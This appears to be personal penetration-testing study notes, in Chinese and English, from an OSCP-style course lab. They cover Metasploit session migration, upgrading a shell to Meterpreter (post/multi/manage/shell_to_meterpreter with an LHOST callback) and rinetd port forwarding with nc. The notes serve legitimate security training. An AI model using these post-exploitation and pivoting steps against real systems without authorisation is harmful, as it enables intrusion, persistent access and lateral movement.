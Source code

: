 ### Scripts
migrate session  to another process
防止程序关闭导致shell失效

```
ps
run migrate -p [pid]
```

### Post module
normal shell 升级为 meterpreter

```
Ctrl-z  //退出shell，不关闭连接

show sessions  // 查看链接
sessions -l 

sessions -i 1  // connect

use post/multi/manage/shell_to_meterpreter
set LHOST 192.168.1.2
set session 1
exploit
```






# Povit
Port Redirection and Tunneling

## port forwarding
```
sudo apt update && sudo apt install rinetd
cat /etc/rinetd.conf

0.0.0.0 80 216.58.207.142 80  //kali上80端口转发至google 80端口

sudo  service rinetd restart
ss -antp | grep 80

debian
nc -nvv kaliip 80

20.1.1.1 Exercises
1. Connect to your dedicated Linux lab client and run the clear_rules.sh script from /root/port_forwarding_and_tunneling/ as root.
2. Attempt to replicate the port-forwarding technique covered in the above scenario.
```

